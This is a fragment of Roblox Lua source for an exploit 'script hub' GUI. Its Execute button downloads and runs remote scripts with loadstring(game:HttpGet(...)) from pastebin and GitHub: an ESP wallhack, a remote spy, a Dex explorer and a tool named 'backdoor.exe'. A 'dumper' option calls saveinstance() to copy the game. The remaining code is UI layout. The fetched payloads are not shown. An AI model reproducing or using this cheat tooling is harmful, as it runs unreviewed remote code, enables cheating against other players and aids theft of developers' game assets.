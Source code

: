 execute_2.Name = "execute"
execute_2.Parent = scripthub_2
execute_2.BackgroundColor3 = Color3.fromRGB(104, 104, 104)
execute_2.BackgroundTransparency = 0.800
execute_2.BorderSizePixel = 0
execute_2.Position = UDim2.new(0.34057343, 0, 0.871106505, 0)
execute_2.Size = UDim2.new(0, 92, 0, 30)
execute_2.Font = Enum.Font.Arial
execute_2.Text = "Execute"
execute_2.TextColor3 = Color3.fromRGB(255, 255, 255)
execute_2.TextSize = 14.000
execute_2.ZIndex = 110
execute_2.MouseButton1Click:Connect(function()
    if injected == true then
        if scriptselected == "dex" then
            loadstring(game:HttpGet("https://pastebin.com/raw/J8AX35Fg"))()
        end
        if scriptselected == "spy" then
            loadstring(game:HttpGet('https://pastebin.com/raw/JZaJe9Sg'))()
        end
        if scriptselected == "dumper" then
            saveinstance()
        end
        if scriptselected == "esp" then
            loadstring(game:HttpGet("https://raw.githubusercontent.com/ic3w0lf22/Unnamed-ESP/master/UnnamedESP.lua"))()
        end
        if scriptselected == "backdoor" then
        	loadstring(game:HttpGet("https://raw.githubusercontent.com/iK4oS/backdoor.exe/master/source.lua"))()
        end
        if scriptselected == "none" then
        end
    end
    if injected == false then
        execute_2.Text = "Not Attached!"
        wait(1)
        execute_2.Text = "Execute"
    end
end)

close.Name = "close"
close.Parent = scripthub_2
close.BackgroundColor3 = Color3.fromRGB(104, 104, 104)
close.BackgroundTransparency = 0.800
close.BorderSizePixel = 0
close.Position = UDim2.new(0.685180664, 0, 0.871106505, 0)
close.Size = UDim2.new(0, 84, 0, 30)
close.Font = Enum.Font.Arial
close.Text = "Close"
close.TextColor3 = Color3.fromRGB(255, 255, 255)
close.TextSize = 14.000
close.ZIndex = 110
close.MouseButton1Click:Connect(function()
    scriptselected = "none"
    scripthub_2.Visible = false
end)
